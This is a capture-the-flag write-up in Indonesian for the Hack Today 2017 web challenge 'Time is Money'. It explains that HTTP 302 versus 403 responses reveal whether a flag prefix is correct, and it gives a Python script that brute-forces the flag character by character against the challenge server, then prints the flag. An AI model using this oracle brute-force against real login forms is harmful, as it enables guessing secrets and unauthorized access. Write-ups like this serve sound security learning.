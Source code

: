 # Hack Today 2017: Time is Money

**Category:** Web
**Points:** 65

## Write-up

- Tidak terdapat clue apapun pada misi ini sehingga kami mencoba untuk mengecek respon status kode yang dikirim.
- Karena kami sudah tahu bahwa flag berawalan strings “HackToday{” dan mendapat respon status kode 302, sedangkan apabila mengirimkan strings acak seperti “asd” respon yang didapat adalah 403, yang mengartikan bahwa strings awal yang kami kirim adalah valid.
- Langkah selanjutnya kami coba bruteforce tiap karakter yang ada menggunakan script berikut,

>	import requests
>	charset = "abcdefghijklmnopqrstuvwxyz0123456789_{}"
>	password = "HackToday{"
>	url = "http://sawah.ittoday.web.id:40137/"
>	while(password[-1]!="}"):
>		for i in charset:
>			r = requests.get(url)
>			payload = {'password': password+i, 'submit': 'Submit+Query'}
>			r = requests.post(url, data=payload)
>			if r.status_code==302:
>				password+=i
>				print password

Didapatlah flag : `HackToday{long_l000ng_flag_is_panjaaa44ng_panjaaanggg_b3ndeeeraaa}`.

